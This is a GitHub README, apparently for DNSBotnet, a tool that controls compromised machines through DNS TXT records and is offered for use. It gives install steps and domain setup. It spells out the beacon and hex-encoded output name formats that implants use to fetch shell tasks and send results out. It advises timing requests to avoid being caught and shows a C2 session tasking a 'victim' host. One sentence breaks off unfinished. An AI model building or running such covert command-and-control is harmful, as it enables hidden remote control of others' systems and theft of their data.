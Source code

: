 DNSBotnet
=========
Controller for a DNS TXT record-based botnet.

Work in progress, though works pretty well as-is.



More documentation (and ease-of-use) will be implemented in the future.

For legal use only.

Building / Installation
-----------------------
The botnet Controller (in the same directory as this file) can be built and
installed with the customary
```bash
go get github.com/magisterquis/dnsbotnet
```
or
```bash
git clone github.com/magisterquis/dnsbotnet
cd dnsbotnet
go build
```

Aside from the binary, an NS record for the domain to be used for beacons must
be set up such that the Controller will receive DNS requests from recursive
resolvers.  This usually means setting a glue (A) records or two and an NS
record with the registrar to point to the IP address of the Controller.

A file containing the SSH public keys should be made to authenticate C2 clients
(i.e. botnet Controller users).  This file is in the same format as OpenSSH's
`authorized_keys`. and is named `authorized_keys.dnsbotnet` by default.

Implants / Protocol
-------------------
Each individual implant has a README with more information.

There are two DNS request formats that the Controller understands: beacons
and output.  In general, clients should beacon periodically to check for
tasking, and if tasking is received, execute it and return any output with
a further series of DNS requests.

The timing of DNS requests is left up to the implant.  They should be fast
enough to allow for usage (interactive, if desired), but slow enough not to get
caught.

### Beacons
Beacon requests should have exactly one name in the following format:
```
ignored.counter.t.implantid.domain
```
The response will either contain a single text record with the task to execute
or no responses at all.  How the tasking is executed is up to the implant.  The
implants contained within this repository run the tasking as a shell command
and return its stdout and stderr.  The meaning of each part of the name will be
explained below.

### Output
Output requests should have exactly one name in the following format:
```
outhex.counter.o.implantid.domain
```
The response will always have 0 records.  The output is printed to any C2
Clients which request it, explained below.  The meaning of each part of the
name will be explained below.  The output should be carefully chunked to

### Names
Request and response names have the following parts
|Label|Meaning|Example|
|-----|-------|-------|
|ignored   | Ignored, for symmetry with beacons.                                                                                   | 0           |
|outhex    | Tasking output, hex-encoded.  The maximum length is 31 bytes (62 hex digits).                                         | 4920616d20313333370a |
|counter   | A unique number per request to prevent caching (i.e. cachebusting).                                                   | 37          |
|t         | A literal t, to signify a beacon (request for tasking).                                                               | t           |
|o         | A literal o, to signify an output request.                                                                            | o           |
|implantid | An ID chosen by the implant to uniquely identify itself.  IP addresses with dots replaced by dashes are good choices. | 192-168-11-11 |
|domain    | The malicious domain.                                                                                                 | example.com |

A beacon name might look like
```
0.3580645942777501247.t.192-168-11-11.example.com
```
An output name might look like
```
202020202020202020202020203634353220436f6e736f6c65202020202020.1150749505258401772.o.192-168-11-11.example.com
```

C2 Clients
----------
All acutal tasking of bots is done by first SSHing to the Controller, then
issuing commands via SSH.  A complete list of commands is available with the
`help` command.

The C2 client session can either be used to display tasking output or beacons
(which may be filtered to only show certain beacons of interest).

Example C2 session:
```
Welcome to the DNSBotnet Server!

Available commands:
help        - This message
id          - Show all beacons
idr <regex> - Show beacons from implants matching regex
id <ID>     - Show a particular implant's output (not beacons)
t <ID>      - Task the current implant (after ID is set)
last [n]    - Show the [n most recent] beacons from all implants
exit        - Goodbye.

2018/02/16 05:28:54 [192-168-11-11] Beacon (2143406018522754847)
2018/02/16 05:28:56 [192-168-11-11] Beacon (2143406018522754848)
2018/02/16 05:28:58 [192-168-11-11] Beacon (2143406018522754849)
2018/02/16 05:29:01 [192-168-11-11] Beacon (2143406018522754850)
> id 192-168-11-11
2018/02/16 05:29:06 Watching implant with ID "192-168-11-11"
192-168-11-11> t uname -a
2018/02/16 05:29:12 Queued task for implant 192-168-11-11: "uname -a"
OpenBSD victim.example.com 6.2 GENERIC.MP#134 amd64
192-168-11-11> last 1
ID            Queued Last Seen
--            ------ ---------
192-168-11-11 0      2018-02-16T05:29:31Z (4.8s)

Current time is 2018-02-16T05:29:36Z
192-168-11-11> exit
```

Unless a particular implant is specified with the `id` command, only beacons
will be printed.  To interact with a particular implant, use the `id` command
to specify the implant by ID  and then the `t` command to give it tasking.
Output from tasking will be printed to the terminal.  The `last` commands work
whether an implant is selected or not.  The `idr` command and the `id` command
without an implant ID can be used to return to printing beacons.

In practical usage, it's helpful to have one C2 connection showing beacons as
they come in and one or more to interact with implants.

Logging
-------
A log file is generated with all tasking and output.  It can be used as a
history of commands run as well as to recover output lost when tasking finished
after `id` was used to view another implant's output.
